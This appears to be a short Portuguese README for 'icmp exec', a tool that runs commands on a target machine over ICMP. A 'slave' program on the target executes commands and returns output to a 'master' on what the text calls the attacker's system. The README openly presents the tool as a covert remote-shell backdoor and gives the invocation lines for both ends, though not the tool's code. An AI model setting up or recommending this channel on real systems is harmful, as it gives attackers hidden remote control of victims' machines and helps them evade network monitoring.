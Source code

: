 # icmp exec

	Executa comandos na maquina alvo utilizando o protocolo ICMP
	para controlar a saída e entrada de comandos.

# Escravo:
	O escravo deve ser executado na maquina alvo e é responsável
	por executar o comando e enviar a saída para o mestre.

	Deve ser executado da seguinte forma: ./escravo [IP DE ORIGEM]
	Onde 'IP DE ORIGEM' é o IP da maquina mestre, de onde vai vim
	os comandos que devem ser executados.

	./escravo 10.0.0.11

# Mestre:
	O Mestre deve ser executado no sistema do atacante e é responsável
	por enviar o comando para a maquina alvo.

	Deve ser executado da seguinte forma: ./mestre [ALVO]
	Onde 'ALVO' é o endereço da maquina escravo, para onde vai ser
	enviados os comandos.

	./mestre 10.0.0.10